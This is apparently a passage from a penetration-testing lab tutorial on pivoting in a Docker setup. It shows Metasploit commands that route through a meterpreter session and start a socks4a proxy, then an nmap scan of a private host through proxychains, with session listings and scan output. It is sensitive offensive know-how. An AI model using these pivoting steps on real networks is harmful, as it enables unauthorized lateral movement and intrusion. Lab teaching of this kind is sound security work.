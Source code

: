 ```bash
  1         shell unknown          SSH pentester:letspivot (172.21.0.2:22)                172.21.0.3:42077 -> 172.21.0.2:22 (172.21.0.2)
  2         meterpreter x86/linux  uid=1000, gid=1000, euid=1000, egid=1000 @ 172.20.0.2  172.21.0.3:4433 -> 172.21.0.2:57642 (172.21.0.2)
```

One slight complication with the docker setup I am showing is the networking. I have setup two internal docker networks, public and private, which in my examples are 172.20.0.0/24 (private) and 172.21.0.0/24 (public). Normally you would use the meterpreter session to enumerate network access, but I am going to skip that here and just setup a proxy to the private network.

### Setup and run a socks proxy over meterpreter

Here we add a route to the private network and setup a socks proxy. I change the meterpreter port to the default proxychains port, but you could also use the default port and update /etc/proxychains.conf with the new route if desired.

```bash
# In Metasploit
msf5 auxiliary(scanner/ssh/ssh_login) > route add 172.20.0.0/24 2
[*] Route added
msf5 auxiliary(scanner/ssh/ssh_login) > use auxiliary/server/socks4a
msf5 auxiliary(server/socks4a) > set SRVPORT 9050
SRVPORT => 9050
msf5 auxiliary(server/socks4a) > run -j
[*] Auxiliary module running as background job 3.

[*] Starting the socks4a proxy server
msf5 auxiliary(server/socks4a) > 

### Now in a separate command window, I will create a new session
### on the meterpreter container to use nmap and proxychains
$ docker exec -it pivots_metasploit_1 /bin/bash
root@ffd95ec9ce94:/$ proxychains nmap -sT -P0 -p8080,9001 172.20.0.3
ProxyChains-3.1 (http://proxychains.sf.net)

Starting Nmap 7.60 ( https://nmap.org ) at 2019-09-19 13:08 UTC
|S-chain|-<>-127.0.0.1:9050-<><>-172.20.0.3:8080-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.20.0.3:9001-<><>-OK
Nmap scan report for 172.20.0.3
Host is up (0.0025s latency).

PORT     STATE SERVICE
8080/tcp open  http-proxy
9001/tcp open  tor-orport

Nmap done: 1 IP address (1 host up) scanned in 0.11 seconds

```

We have a scan! Note that only a limited number of port scan types work with this method (mostly Syn scans) and I find it tends to be quite slow, so it pays to limit the range of IP's and ports.
